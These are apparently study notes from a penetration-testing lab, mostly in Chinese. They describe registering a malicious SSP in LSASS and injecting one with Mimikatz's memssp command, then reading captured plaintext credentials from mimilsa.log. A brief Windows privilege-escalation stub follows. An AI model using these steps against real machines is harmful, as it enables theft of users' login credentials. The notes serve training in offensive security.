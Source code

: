 #### 攻擊手法
Windows 允許透過 AddSecurityPackage API 或 修改登錄檔 來新增自訂的 SSP：

登錄路徑：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\Security Packages`\
每次系統開機時，LSASS 皆會讀取這個登錄鍵中的所有 SSP，並將對應的 DLL 載入到記憶體中。\
**這代表如果我們開發一個惡意 SSP 並將其註冊到 LSASS，就可以讓 Windows 透過我們的 SSP 來處理身份驗證，從而攔截並取得使用者的明文密碼。**

>[!Important]
>Mimikatz 已經內建這種攻擊方式，透過 `memssp` 來實作。
memssp 的特點：\
- 不會在磁碟上留下 DLL 檔案，直接注入記憶體（避免被防毒軟體偵測）。
- 攔截所有經過 SSPI 的身份驗證請求，並記錄明文密碼到 `C:\Windows\System32\mimilsa.log`。

Mimikatz 注入惡意 SSP
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # misc::memssp
Injected =)
```
在惡意 SSP 注入後，
1. 等待另一個使用者遠端連接到機器
2. 社交工程

(透過手動登入)
```
┌──(chw㉿CHW)-[~]
└─$ xfreerdp /u:"CORP\\Administrator" /p:"QWERTY123\!@#" /v:192.168.145.245 /dynamic-resolution
```
透過 RDP 成功驗證機器身分後，登出。\
再以本機管理員(offsec) 登入 CLIENTWK245 ，調查惡意 SSP 的結果。
驗證 Mimikatz 注入 SSP 到 LSASS時，憑證將會保存在日誌檔案    `C:\Windows\System32\mimilsa.log`。
```
PS C:\Users\offsec> type C:\Windows\System32\mimilsa.log
[00000000:00aeb773] CORP\CLIENTWK245$   R3;^LTW*0g4o%bQo1M[L=OCDDR>%$ >n*>&8?!5oz$mY%HV%gm=X&J6,w(FV[KL?*g2HbL.@p(s&mC?Nz*N;DVtP+G]imZ_6MBkb:#Wq&8eo/fU@eBq+;CXt
[00000000:00aebd86] CORP\CLIENTWK245$   R3;^LTW*0g4o%bQo1M[L=OCDDR>%$ >n*>&8?!5oz$mY%HV%gm=X&J6,w(FV[KL?*g2HbL.@p(s&mC?Nz*N;DVtP+G]imZ_6MBkb:#Wq&8eo/fU@eBq+;CXt
[00000000:00aebf6f] CORP\CLIENTWK245$   R3;^LTW*0g4o%bQo1M[L=OCDDR>%$ >n*>&8?!5oz$mY%HV%gm=X&J6,w(FV[KL?*g2HbL.@p(s&mC?Nz*N;DVtP+G]imZ_6MBkb:#Wq&8eo/fU@eBq+;CXt
[00000000:00af2311] CORP\Administrator  QWERTY123!@#
[00000000:00404e84] CORP\Administrator  Šd
[00000000:00b16d69] CORP\CLIENTWK245$   R3;^LTW*0g4o%bQo1M[L=OCDDR>%$ >n*>&8?!5oz$mY%HV%gm=X&J6,w(FV[KL?*g2HbL.@p(s&mC?Nz*N;DVtP+G]imZ_6MBkb:#Wq&8eo/fU@eBq+;CXt
[00000000:00b174fa] CORP\CLIENTWK245$   R3;^LTW*0g4o%bQo1M[L=OCDDR>%$ >n*>&8?!5oz$mY%HV%gm=X&J6,w(FV[KL?*g2HbL.@p(s&mC?
```
> CORP\Administrator  QWERTY123!@#

# Windows Privilege Escalation

## Enumerating Windows
First need to get familiar with the Windows privilege structure and access control mechanisms.
### Understanding Windows Privileges and Access Control Mechanisms
#### 1. [Security Identifier](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers) (SID) 
Windows uses a SID to identify entities. SID 是獨立的 value，會分配給每個 entity 或 principa，讓 Windows 識別 users 和 groups。
-  [Local Security Authority](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection)(LSA): 產生 local accounts and groups

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir